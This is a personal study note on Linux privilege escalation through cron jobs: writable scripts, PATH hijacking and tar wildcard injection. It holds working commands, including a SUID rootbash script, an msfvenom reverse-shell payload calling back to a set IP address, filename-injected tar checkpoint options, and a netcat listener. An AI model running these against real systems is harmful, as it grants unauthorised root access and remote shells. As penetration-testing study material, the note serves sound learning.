 
2024-06-15 21:28

Source: #privesc 

Tags: [[linux]]

#### Privilege Escalation

The system-wide crontab is located at `/etc/crontab`
##### File Permissions

1. view the contents of the system-wide crontab - `cat /etc/crontab`
2. Locate the (example file -  overwrite.sh) file on the server - `locate <file-name>`
3. Check the file’s permissions - Note that the file is world writable 
4. Replace the contents of the example file with a reverse shell
5. Run a netcat listener on your local machine and wait for the cron job to run.

##### PATH Environment Variable

- The system will check the directory locations in the path variable sequentially for cronjobs
1. view the contents of the system-wide crontab - `cat /etc/crontab`
2. Note that the `/home/user` directory (which we can write to) is at the start of the PATH variable, and the first cron job does not use an absolute path
3. Create the file overwrite.sh in `/home/user` with the [[rootbash]]:
```
	#!/bin/bash 
	cp /bin/bash /tmp/rootbash 
	chmod +s /tmp/rootbash
```
4. Ensure that overwrite.sh is executable
5. Once the `/tmp/rootbash` file is created, execute it (with -p to preserve the effective UID) to gain a root shell
##### Wildcard

- When a wildcard character `(*)` is provided to a command as part of an argument, the shell will first perform filename expansion (also known as globbing) on the wildcard.
- This process replaces the wildcard with a space-separated list of the file and directory names in the current directory.
- An easy way to see this in action is to run the following command from your home directory:
	$ echo *`

Since filesystems in Linux are generally very permissive with filenames, and filename expansion happens before the command is executed, it is possible to pass command line options (e.g. -h, --help) to commands by creating files with these names. 
The following commands should show how this works
```
$ ls * 
% touch ./-l 
$ ls *
```
- Filenames are not simply restricted to simple options like -h or --help. 
- In fact we can create filenames that match complex options: `--option=key=value` 
- GTFOBins (https://gtfobins.github.io) can help determine whether a command has command line options which will be useful for our purposes

in the example machine we have a cronjob named `/usr/local/bin/compress.sh`
cat the file and we see the contents of the file as
```
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```
on checking gtfo bins we find out there is a way to spawn a shell using tar using command line options. we can modify to our needs and spawn a reverse root shell back to our local machine 

on your local machine generate a [[Tags/revshell]] linux binary using msfvenom 
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.26 LPORT=53 -f elf -o shell.elf
```
- transfer the revshell to the target machine 
- create 2 other files in the home directory which will become command line args for the tar command when the wildcard is expanded 
```
touch ./--checkpoint=1
creates a checkpoint for every file that is processed

touch ./--checkpoint-action=exec=shell.elf\
defines an action to run at every checkpoint, in this case we want to execute the file
```
further set up a netcat listener(`nc -nvlp 53`) on your local device and wait for the cronjob to execute 
### References
